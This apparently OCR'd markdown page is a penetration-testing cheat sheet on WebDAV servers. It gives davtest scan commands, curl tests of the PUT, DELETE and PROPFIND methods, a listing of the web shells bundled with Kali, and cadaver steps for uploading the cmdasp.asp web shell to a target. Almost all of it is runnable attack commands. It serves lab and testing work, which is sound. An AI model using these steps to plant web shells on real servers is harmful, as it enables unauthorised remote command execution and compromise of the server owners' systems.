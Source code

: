 ## WebDAV Configuration Analysis

### Using davtest for Vulnerability Assessment

```bash
# Basic davtest scan
davtest -url http://<target_ip>/webdav/

# With authentication
davtest -url http://<target_ip>/webdav/ -auth <username>:<password>

# Comprehensive testing
davtest -url http://<target_ip>/webdav/ -auth <username>:<password> \
        -cleanup -create -directory davtest_scan
```

### Manual WebDAV Method Testing

```bash
# Test PUT method
curl -X PUT -u <username>:<password> \
     http://<target_ip>/webdav/test.txt \
     -d "test content"

# Test DELETE method
curl -X DELETE -u <username>:<password> \
     http://<target_ip>/webdav/test.txt

# Test PROPFIND for directory listing
curl -X PROPFIND -u <username>:<password> \
     http://<target_ip>/webdav/
```

## Web Shell Deployment

### Available Web Shells in Kali

```bash
# List available web shells
ls -la /usr/share/webshells/

# ASP web shells
ls /usr/share/webshells/asp/
# Common options: cmdasp.asp, webshell.asp
```

### Manual Web Shell Upload with cadaver

```bash
# Connect to WebDAV with cadaver
cadaver http://<target_ip>/webdav/

# Authentication prompt will appear
# Username: <username>
# Password: <password>

# Once authenticated:
ls                          # List directory contents
put /usr/share/webshells/asp/cmdasp.asp  # Upload web shell
ls                          # Verify upload
quit                       # Exit cadaver
```
